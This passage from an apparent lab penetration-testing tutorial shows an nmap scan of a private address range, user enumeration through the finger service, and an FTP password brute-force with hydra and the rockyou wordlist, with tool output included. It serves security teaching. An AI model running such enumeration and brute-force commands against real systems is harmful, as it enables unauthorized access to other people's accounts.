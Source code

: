 The boxes we actually care about (spoiler alert) are in the range from 10.0.1.17-10.0.1.21. Due to time constraints we'll just scan these 5. We can use nmap or zenmap to get a quick overview of what each of these boxes are doing.

    ~# nmap -A -vv 10.0.1.17-21  
    ~# zenmap
    
I won't post the results here since they're pretty hefty.

### User enumeration

User enumeration is the act of testing or finding usernames, in order to get a foothold into a box. This can be testing usernames in a login form on a website or by abusing services like snmp. "Finger" was one of the first protocols made for getting user status over a network, and while not widely used today, can easily be abused if found.  

The earlier nmap output shows that 10.0.1.17 is running the finger daemon, as well as an ftp server.  

    PORT      STATE  SERVICE      VERSION
    21/tcp    open   ftp          vsftpd 3.0.2
    79/tcp    open   finger       Debian fingerd
    
If we look into this further, we can use finger to get the currently logged in users.

    ~# finger @10.0.1.17
    Login     Name       Tty      Idle  Login Time   Office     Office Phone
    clean     clean     *tty2        2  Sep 12 15:42
    ftpuser   ftpuser   *tty1    18:09  Sep 12 15:41 3130      
    guest               *tty3        2  Sep 13 09:49
    
### Brute Forcing

Now that we know some potential users, we can try and leverage these to get access to the box. The simplest, yet usually least effective and time consuming way of doing this is through brute forcing.  

10.0.1.17 is also running an ftp server on port 21, we can see that it has an ftpuser. We can try bruteforcing the password to see if it is simple enough to crack in a reasonable amount of time.  

Hydra is the go-to tool for network logon cracking and supports a number of different services, so let's give it a shot.  

    ~# gunzip -d /usr/share/wordlists/rockyou.txt.gz
    ~# hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.0.1.17
        
    Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (http://www.thc.org/thc-hydra) starting at 2016-09-13 10:56:30
    [DATA] max 16 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~14008 tries per task
    [DATA] attacking service ftp on port 21
    [21][ftp] host: 10.0.1.17   login: ftpuser   password: [redacted]
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2016-09-13 10:57:19

Now that took less than a minute because I purposefully chose a password early in the wordlist. This isn't that representative of true bruteforcing which can take forever (literally), like if we were cracking stronger passwords and hashes.  


[codebreakers]: https://codebreaker.ltsnet.net/home
[csaw]: https://ctf.csaw.io/
[vulnhub]: https://www.vulnhub.com/
[writeup]: https://kaizensecurity.wordpress.com/2016/08/31/mr-robot-1-you-are-not-alone/
